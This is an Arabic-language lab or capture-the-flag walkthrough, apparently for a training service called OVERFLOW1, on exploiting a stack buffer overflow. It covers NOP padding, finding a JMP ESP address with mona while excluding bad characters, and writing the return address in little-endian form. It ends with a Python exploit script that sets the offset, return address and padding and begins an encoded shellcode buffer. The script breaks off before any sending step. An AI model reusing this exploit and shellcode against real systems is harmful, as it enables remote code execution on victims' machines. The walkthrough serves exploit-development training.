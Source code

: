 طيب اول شي بنشوفه الي هو البادنق لو نخليه 
```bash
"\x90" * 4
```  

بنشوف انه مايضبط ولو حطيناه 7 راح لانه راح ينقص بايت من الشيل حقك  
لو نخليه 8 راح يضبط بدون اي مشاكل  
الـ EIP = BBBB  

الان نشوف الستاك فيه ال BBBB تحتها 8 مرات مكتوب 90  
طبعا ناخذ الادرس الي بعد الـ 8مرات 90  

وهذا هو راح يكون بداية الشيل تبعنا  
ولابد يكتب الادرس بشكل هيكس ومعروف انه ليتيل انديان  

طيب الان لو نحاول نستغله راح يتغير الادرس ماراح يروح للادرس حقنا الي حصلناه بعد الثمان مرات 90  

فنشوف انه فعلا تغير الادرس فالان عاد تقعد تجرب تسوي اكسبلويت لين يجي على الادرس الي حطيناه بالكود  
يعني تقدر تقول كانه brute force  

طبعا نقدر نحل المشكله باننا نستخدم JMP to ESP  

طيب بعد مانطلع البادكراكترز الان ونبي نطلع الـ JMP ESP عشان نتفادا المشاكل  
```bash
!mona jmp -r esp -cpb "<BAD_CHARS>"
```  

ونشوف انه مثلا عطانا 9 ادرسس مافيهم الباد كراكترز الي حددناه بالامر السابق  
ف مثلا عطانا هذا الادرس  
```bash
625011AF
```  
راح نكتبه بهذا الشكل في الـ return  
```bash
\xAF\x11\x50\x62
```  

والان نقدر نكتب الاكسبلويت حقنا بدون اي مشاكل وراح يتنفذ علطول مايحتاج نقدر نجرب اكثر من مره ونسوي رن ونشوف هل بيجي الادرس حقنا او لا  

طبعا الان لو نستغله بنشوف انه حصلنا مشكله جديده والي هي الثمان مرات 90 صارت ثمان مرات 0 وهذا المشكله  

طيب وش السبب والله ماعرف ماتعمقت بهذا الموضوع مره ف عشان ال layout memory  
طبعا نزيد 4 ثانيه ف بيصير عندنا 12 مره 90  

ونجرب نستغل....  
```python
import socket
ip = "10.10.60.243"
port = 1337
prefix = "OVERFLOW1 "
offset = 1978
overflow = "A" * offset
retn = "\xAF\x11\x50\x62"
padding = "\x90" * 24

buf =  ""
buf += "\xdb\xc6\xd9\x74\x24\xf4\xbd\xe7\xa2\xa4\xa8\x5a"
buf += "\x31\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x25"
buf += "\xa6\x46\x5d\x55\x4f\x04\x9e\xa5\x90\x69\x16\x40"
buf += "\xa1\xa9\x4c\x01\x92\x19\x06\x47\x1f\xd1\x4a\x73"
buf += "\x94\x97\x42\x74\x1d\x1d\xb5\xbb\x9e\x0e\x85\xda"
buf += "\x1c\x4d\xda\x3c\x1c\x9e\x2f\x3d\x59\xc3\xc2\x6f"
buf += "\x32\x8f\x71\x9f\x37\xc5\x49\x14\x0b\xcb\xc9\xc9"
buf += "\xdc\xea\xf8\x5c\x56\xb5\xda\x5f\xbb\xcd\x52\x47"
buf += "\xd8\xe8\x2d\xfc\x2a\x86\xaf\xd4\x62\x67\x03\x19"
buf += "\x4b\x9a\x5d\x5e\x6c\x45\x28\x96\x8e\xf8\x2b\x6d"
buf += "\xec\x26\xb9\x75\x56\xac\x19\x51\x66\x61\xff\x12"
buf += "\x64\xce\x8b\x7c\x69\xd1\x58\xf7\x95\x5a\x5f\xd7"
buf += "\x1f\x18\x44\xf3\x44\xfa\xe5\xa2\x20\xad\x1a\xb4"
```